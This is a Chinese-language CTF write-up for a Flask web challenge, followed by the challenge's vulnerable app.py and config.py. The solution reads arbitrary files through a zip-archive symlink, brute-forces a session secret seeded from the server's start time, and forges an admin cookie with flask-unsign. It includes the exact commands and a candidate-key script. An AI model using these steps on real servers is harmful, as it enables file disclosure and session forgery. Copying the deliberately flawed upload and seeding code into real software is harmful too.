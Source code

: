 - # 题解
	- 题目源码解析:`app.py`
		- `/login`登陆接口
		- `/register`注册接口
		- `/upload`接收用户发送的zip文件，解压，并将解压后的路径告诉用户
		- `/uploads/<path>`读取zip解压后的文件并发给用户
		- `/flag`如果用户是admin即发送flag
		- 后端使用flask，其特点是将session签名保存在用户的cookie中，攻击者只需要想办法获取secret就可以伪造session
		- 将日志保存在`/tmp/server.log`中，可以通过日志判断启动时间
	- 源码解析:`config.py`
		- 会使用随机数生成secret用于签名session
		- 随机数种子用启动的时间以及`SECRET_OFFSET`的值生成
		- 播种公式：`random.seed(round((time.time() + SECRET_OFFSET) * 1000))`
			- `time.time()`时间戳，精确到毫秒
			- 种子：四舍五入的`(time.time() + SECRET_OFFSET) * 1000`
	- 任意文件读取：软链接攻击
	  id:: 63c3b277-fdc4-479f-974a-abc0cf1a9fc4
		- 在zip包内保存一个软链接，然后再让服务器读取这个软链接即可读取任意文件
		- 可以使用 [[CTF/Zip]] 读取任意文件
			- `ln -s /app/config.py file && zip -ry zip.zip file && base64 -w 0 zip.zip`
		- 无权读取flag文件
	- 主要思路：
		- 用任意文件读取漏洞读取`SECRET_OFFSET`和服务器启动时间
		  id:: 63c3b477-fe5e-4a86-8157-a27026da0934
		- 生成所有可能的secret
		  id:: 63c3b77c-b5b5-4079-a40f-2c005088f6f9
			- 因为服务器启动时间不够精确，只能这样
		- 用 [[CTF/Flask-Unsign]] 测试所有的secret, 发现只有一个可以解密签名
		  id:: 63c3b79c-6531-4b4c-833a-d2c4a0691519
		- 使用正确的secret伪造管理员身份拿到flag
		  id:: 63c3b85f-9bc5-4586-8bf1-318f562379d7
		- [[draws/2023-01-15-16-17-22.excalidraw]]
	- ((63c3b477-fe5e-4a86-8157-a27026da0934))
		- 使用 ((63c3b277-fdc4-479f-974a-abc0cf1a9fc4)) 读取`/app/config.py`和`/tmp/server.log`即可
	- ((63c3b77c-b5b5-4079-a40f-2c005088f6f9))
		- 代码：
			- ```python
			  from datetime import datetime
			  import random
			  
			  def timestamp_to_secret(timestamp):
			      random.seed(round((timestamp) * 1000))
			      return "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
			  
			  SECRET_OFFSET = -67198624
			  
			  date_string = "2023-01-14 23:03:32 +0000"
			  dt_format = datetime.strptime(date_string, '%Y-%m-%d %H:%M:%S %z')
			  
			  timestamp = dt_format.timestamp()
			  timestamp += SECRET_OFFSET
			  
			  l = []
			  
			  for i in range(-2000, 2000):
			      l.append(timestamp_to_secret(timestamp + i / 1000))
			  
			  with open("test.txt", "w") as f:
			      f.writelines([line + "\n" for line in l])
			  ```
	- ((63c3b79c-6531-4b4c-833a-d2c4a0691519))
		- 运行`flask-unsign -u -w test.txt -c eyJhZG1pbiI6ZmFsc2UsInVpZCI6InRlc3R0ZXN0In0.Y8OwiQ.rKYwk2_A8u4XQqEyTJbVL5WcV64`
	- ((63c3b85f-9bc5-4586-8bf1-318f562379d7))
		- `flask-unsign -s --secret e897071bf3d5dc6ff7882fc0b64ece5c --cookie "{'admin': True, 'uid': 'testtest'}"`
- # 源码
	- `app.py`
		- ```python
		  import logging
		  import os
		  import re
		  import sqlite3
		  import subprocess
		  import uuid
		  import zipfile
		  
		  from flask import (Flask, flash, redirect, render_template, request, abort,
		                     send_from_directory, session)
		  from werkzeug.security import check_password_hash, generate_password_hash
		  
		  
		  app = Flask(__name__)
		  DATA_DIR = "/tmp/"
		  
		  # 设置最大文件大小
		  app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000
		  
		  # 配置日志模块，将所有日志存储在/tmp/server.log中
		  LOG_HANDLER = logging.FileHandler(DATA_DIR + 'server.log')
		  LOG_HANDLER.setFormatter(logging.Formatter(fmt="[{levelname}] [{asctime}] {message}", style='{'))
		  logger = logging.getLogger("application")
		  logger.addHandler(LOG_HANDLER)
		  logger.propagate = False
		  for handler in logging.root.handlers[:]:
		      logging.root.removeHandler(handler)
		  logging.basicConfig(level=logging.WARNING, format='%(asctime)s %(levelname)s %(name)s %(threadName)s : %(message)s')
		  logging.getLogger().addHandler(logging.StreamHandler())
		  
		  # 设置秘密
		  app.config["SECRET_KEY"] = os.environ["SECRET_KEY"]
		  
		  @app.route("/")
		  def index():
		      return render_template("index.html")
		  
		  
		  @app.route("/login", methods=["GET", "POST"])
		  def login():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("login.html")
		  
		      # 获取用户名和密码
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		  
		      # 根据用户名查询密码，并和输入的密码对比
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT password, admin FROM users WHERE username=?", (username,))
		          user = res.fetchone()
		          if not user or not check_password_hash(user[0], password):
		              flash("Incorrect username/password", "danger")
		              return render_template("login.html")
		      
		      # 设置uid和admin
		      session["uid"] = username
		      session["admin"] = user[1]
		      return redirect("/upload")
		  
		  
		  @app.route("/register", methods=["GET", "POST"])
		  def register():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("register.html")
		  
		      # 获取用户名和密码，用户名需要符合[a-zA-Z0-9_]{1,24}
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		      if not username or not password or not re.fullmatch("[a-zA-Z0-9_]{1,24}", username):
		          flash("Invalid username/password", "danger")
		          return render_template("register.html")
		      
		      # 查询用户名是否重复，添加用户
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT username FROM users WHERE username=?", (username,))
		          if res.fetchone():
		              flash("That username is already registered", "danger")
		              return render_template("register.html")
		          
		          db.cursor().execute("INSERT INTO users (username, password) VALUES (?, ?)", (username, generate_password_hash(password)))
		          db.commit()
		      
		      session["uid"] = username
		      session["admin"] = False
		      return redirect("/upload")
		  
		  
		  @app.route("/upload", methods=["GET", "POST"])
		  def upload():
		      if not session.get("uid"):
		          return redirect("/login")
		      if request.method == "GET":
		          return render_template("upload.html")
		  
		      if "file" not in request.files:
		          flash("You didn't upload a file!", "danger")
		          return render_template("upload.html")
		      
		  
		      file = request.files["file"]
		  
		      # 生成随机名字并保存
		      uuidpath = str(uuid.uuid4())
		      filename = f"{DATA_DIR}uploadraw/{uuidpath}.zip"
		      file.save(filename)
		  
		      # 解压缩
		      subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])
		  
		      # 通知
		      flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
		      logger.info(f"User {session.get('uid')} uploaded file {uuidpath}")
		      return redirect("/upload")
		  
		  
		  @app.route("/uploads/<path:path>")
		  def uploads(path):
		      try:
		          return send_from_directory(DATA_DIR + "uploads", path)
		      except PermissionError:
		          abort(404)
		  
		  
		  @app.route("/flag")
		  def flag():
		      if not session.get("admin"):
		          return "Unauthorized!"
		      return subprocess.run("./flag", shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")
		  ```
	- `config.py`
		- ```python
		  import random
		  import os
		  import time
		  
		  SECRET_OFFSET = 0 # REDACTED
		  random.seed(round((time.time() + SECRET_OFFSET) * 1000))
		  os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
		  ```